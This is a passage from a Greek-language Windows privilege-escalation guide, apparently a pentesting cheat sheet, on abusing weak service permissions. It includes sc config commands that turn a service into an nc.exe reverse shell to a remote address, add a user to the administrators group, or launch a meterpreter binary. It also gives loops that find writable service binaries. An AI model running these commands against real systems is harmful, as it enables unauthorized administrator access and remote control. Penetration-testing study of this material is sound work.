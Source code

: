**Ένας άλλος τρόπος αντιμετώπισης** αυτού του προβλήματος είναι να εκτελέσετε:
```
sc.exe config usosvc start= auto
```
### **Τροποποίηση της διαδρομής του εκτελέσιμου αρχείου της υπηρεσίας**

Στην περίπτωση όπου η ομάδα "Εξουσιοδοτημένοι χρήστες" έχει τα δικαιώματα **SERVICE_ALL_ACCESS** σε μια υπηρεσία, είναι δυνατή η τροποποίηση του εκτελέσιμου αρχείου της υπηρεσίας. Για να τροποποιήσετε και να εκτελέσετε το **sc**:
```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```
### Επανεκκίνηση υπηρεσίας

Για να επανεκκινήσετε μια υπηρεσία σε ένα σύστημα Windows, μπορείτε να ακολουθήσετε τα παρακάτω βήματα:

1. Ανοίξτε το Command Prompt (Εντολέας) ως διαχειριστής.
2. Πληκτρολογήστε την εντολή `net stop [όνομα_υπηρεσίας]` για να σταματήσετε την υπηρεσία. Αντικαταστήστε το `[όνομα_υπηρεσίας]` με το πραγματικό όνομα της υπηρεσίας που θέλετε να επανεκκινήσετε.
3. Πληκτρολογήστε την εντολή `net start [όνομα_υπηρεσίας]` για να ξεκινήσετε ξανά την υπηρεσία. Αντικαταστήστε το `[όνομα_υπηρεσίας]` με το πραγματικό όνομα της υπηρεσίας που θέλετε να επανεκκινήσετε.

Αυτή η διαδικασία θα επανεκκινήσει την επιλεγμένη υπηρεσία στο σύστημα Windows.
```bash
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```
Οι προνομιούχοι μπορούν να αναβαθμιστούν μέσω διάφορων δικαιωμάτων:
- **SERVICE_CHANGE_CONFIG**: Επιτρέπει την αναδιαμόρφωση του δυαδικού αρχείου της υπηρεσίας.
- **WRITE_DAC**: Επιτρέπει την αναδιαμόρφωση των δικαιωμάτων, οδηγώντας στη δυνατότητα αλλαγής των ρυθμίσεων της υπηρεσίας.
- **WRITE_OWNER**: Επιτρέπει την απόκτηση ιδιοκτησίας και την αναδιαμόρφωση των δικαιωμάτων.
- **GENERIC_WRITE**: Κληρονομεί τη δυνατότητα αλλαγής των ρυθμίσεων της υπηρεσίας.
- **GENERIC_ALL**: Κληρονομεί επίσης τη δυνατότητα αλλαγής των ρυθμίσεων της υπηρεσίας.

Για τον εντοπισμό και την εκμετάλλευση αυτής της ευπάθειας, μπορεί να χρησιμοποιηθεί το _exploit/windows/local/service_permissions_.

### Αδύναμα δικαιώματα δυαδικών υπηρεσιών

**Ελέγξτε εάν μπορείτε να τροποποιήσετε το δυαδικό αρχείο που εκτελείται από μια υπηρεσία** ή εάν έχετε **δικαιώματα εγγραφής στον φάκελο** όπου βρίσκεται το δυαδικό αρχείο ([**DLL Hijacking**](dll-hijacking.md))**.**\
Μπορείτε να λάβετε κάθε δυαδικό αρχείο που εκτελείται από μια υπηρεσία χρησιμοποιώντας το **wmic** (όχι στο system32) και να ελέγξετε τα δικαιώματά σας χρησιμοποιώντας το **icacls**:
```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```
Μπορείτε επίσης να χρησιμοποιήσετε τις εντολές **sc** και **icacls**:
```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```
### Δικαιώματα τροποποίησης καταχωρήσεων υπηρεσιών